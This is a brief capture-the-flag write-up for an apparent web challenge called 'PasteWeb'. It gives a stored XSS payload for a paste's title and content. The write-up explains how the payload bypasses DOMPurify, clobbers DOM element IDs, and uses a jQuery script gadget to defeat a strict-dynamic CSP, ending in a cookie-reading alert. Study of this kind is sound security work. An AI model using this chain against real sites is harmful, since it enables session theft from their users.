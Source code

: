 # PasteWeb (XSS)

### Payload

Create a paste with the following title:
```
<iframe id="ps"></iframe><script>
```
and the following content:
```
a<form id="fb"><input name="ownerDocument"/><script>alert(document.cookie);</script></form>
```

and access it.

### Idea
1. unfiltered output at title, recreate unsandboxed iframe with same DOM ID (`ps`)
2. `<script>` has highest priority in HTML, use `<script>` to disable DOMPurify
3. Bug in paste.html js -> try catch doesn't halt execution
4. Create element with same DOM Element ID `fb` to mess up with js queryselector
5. jQuery Script Gadget to bypass CSP Strict-Dynamic (https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) (https://github.com/jquery/jquery/blob/30e1bfbdcb0ff658f1fa128b72480194e8ecb926/src/manipulation.js#L103)

## author
adamyi
